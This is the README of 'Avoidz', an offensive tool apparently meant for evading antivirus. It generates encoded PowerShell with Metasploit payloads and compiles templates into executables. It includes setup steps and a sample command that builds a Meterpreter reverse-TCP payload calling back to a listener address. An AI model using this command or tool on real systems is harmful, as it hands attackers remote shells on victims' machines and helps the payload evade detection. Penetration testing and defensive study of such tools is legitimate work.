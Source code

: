 ## Avoidz v 1.3 
    Author: Mascerano Bachir [ dev-labs ]

## Legal Disclamer:
    The author does not hold any responsibility for the bad use of this tool,
    remember this is only for educational purpose.

## Description:
    This tool Generate encoded powershell with metasploit payloads,convert C, C#, py, go Templates to EXE's 
 
## Screenshot:
<img src="http://i.imgur.com/sTeiZyE.png" width="49.99%"></img> <img src="http://i.imgur.com/I0lIBDl.png" width="49.99%"></img> 

<br /><br />

## Dependencies :
	1 - xterm
	2 - metasploit-framework
	3 - MinGW32
	4 - Monodevelop
	5 - Wine
	6 - Python.exe v 2.7
	7 - Golang

## Download/Config/Usage:
    1º - Download the tool from github
            git clone https://github.com/M4sc3r4n0/avoidz.git

    2º - Set setup script execution permission
            cd avoidz
            chmod +x setup.sh

    3°- Run setup script
            sudo ./setup.sh == to check dependencies

    4°- Install rubygems:
           sudo gem install colorize
           sudo gem install artii
    
    5°- Run avoidz tool == example
           ./avoidz.rb == help command
           ./avoidz.rb -h 192.168.1.3 -p 666 -m windows/meterpreter/reverse_tcp -f c1 == generate

## video tutorial: 
Avoidz v 1.0 old method : https://www.youtube.com/watch?v=ZilOByKkrVk
